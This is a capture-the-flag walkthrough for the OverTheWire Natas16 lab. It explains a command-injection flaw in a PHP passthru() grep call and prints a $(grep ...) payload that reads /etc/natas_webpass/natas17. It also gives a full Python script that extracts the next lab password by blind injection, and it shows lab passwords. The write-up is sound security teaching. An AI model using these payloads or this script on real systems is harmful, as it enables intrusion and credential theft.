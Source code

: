 ```yaml
---
category: natas
title: Natas16 - Command Injection Part 3
---
```


website: http://natas16.natas.labs.overthewire.org/ (password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh)

This challenge is very similar to the one in level 10, but the major difference is that it has a quote around the `$key`. See the difference below.

The implementation in Natas10:
```php
passthru("grep -i $key dictionary.txt");
```

The implementation in this challenge:
```php
passthru("grep -i \"$key\" dictionary.txt");
```

Because of the quote, all user input will be considered as a whole word to search. Therefore, the method we used in Natas10 will not work any more. However, we can see the implementation still uses the vulnerable API `passthru()`. As such, the command injection vulnerability still exists.

To work around it, let's start with a quick play - feeding the textbox with this input: <small>$(echo hello)</small>.
The webpage give the output:
```raw
hello
hello's
hellos
```

What we can observe is that, the source code took everything of my input and considered it as a command substitution. Therefore, it executed my command first and then used my command outputs as a keyword to search.

Here comes my final solution:

1. Find a word that has only one output from the webpage, e.g., hellos. The reason we want a word that leads to a single output will be explained later.
2. We iterate each character in the sequence <small>abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789</small>. For each character `ch`, we use a <a href="https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html">command substitution</a> to grep it in the file <i>/etc/natas_webpass/natas17</i>. That is equivalent with an input of `$(grep ch /etc/natas_webpass/natas17)`.
3. We then append the output of the command substitution to the word we selected (e.g., hellos). If a character is part of natas17's password, then the command output won't be empty and will be appended to our selected word. However, because the selected word is the only output from the webpage, the webpage won't print anything after appending a character. On the other hand, if a character is not part of the password, then the command output will be empty and nothing will be appended to our selected word. In this case, you will still be able to see the selected word returned by the webpage. That explains why we want to select a word that leads to a single output from the webpage: we can tell if a character is part of natas17's password.
4. After we find out all the characters contained in the password, we then follow the same idea used in <a href="https://miaxu-src.github.io/natas/2021/03/26/natas15-walkthrough.html">Nata15</a> to figure out the final password, which is "8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw".

The final solution is provided below.
```python
#!/usr/bin/env python3

import requests
from requests.auth import HTTPBasicAuth

url = 'http://natas16.natas.labs.overthewire.org/?needle='
s = requests.Session()
s.auth = HTTPBasicAuth("natas16", "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh")

passfile17 = '/etc/natas_webpass/natas17'
prefix = 'tested'


def get_password_chars():
    filtered = ''
    chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'

    print('Looking for password char set...')
    for char in chars:
        input_text = f'^{prefix}$(grep {char} {passfile17})'
        if is_hit(input_text):
            filtered += char
            print(f'The password contains: {filtered}')

    return filtered


def get_password(filtered):
    password = ''
    for i in range(32):
        print(f'Looking for the position {i}...')

        for char in filtered:
            input_text = f'^{prefix}$(grep ^{password}{char} {passfile17})'
            if is_hit(input_text):
                password += char
                print(password)
                break

    return password


def is_hit(data):
    resp = s.get(f'{url}{data}')
    return resp and prefix not in resp.text


# Step 1: Find out what chars the password contains
password_chars = get_password_chars()

# Step 2: Find out the password by ordering the chars found in step 1
password = get_password(password_chars)
print(f'The password is: {password}')
```


